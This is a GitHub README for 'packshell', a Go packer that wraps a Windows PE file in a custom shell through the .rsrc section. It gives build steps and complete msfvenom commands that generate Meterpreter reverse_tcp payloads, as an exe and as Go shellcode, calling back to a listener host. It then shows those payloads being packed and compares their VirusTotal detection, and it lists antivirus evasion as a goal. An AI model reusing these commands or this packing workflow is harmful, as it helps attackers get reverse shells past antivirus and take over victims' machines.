



# packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file


# Detail


# Test

## logic test-msf exe

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener


- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session




## logic test-msf shellcode

- use msfvenom create a test shellcode

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f golang -o golang_exp.txt
```

- msf create a listener

  

- use golang shellcode loader create a exe file
- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_sc_normal.exe win_sc_pack.exe
```

- execute new file and msf get a session


## anti-virus test

### msf exe

- unpack file in virustotal



- packed file in virustotal



### msf shellcode

- unpack file in virustotal


- packed file in virustotal


# TODO

- [ ] anti anti-virus
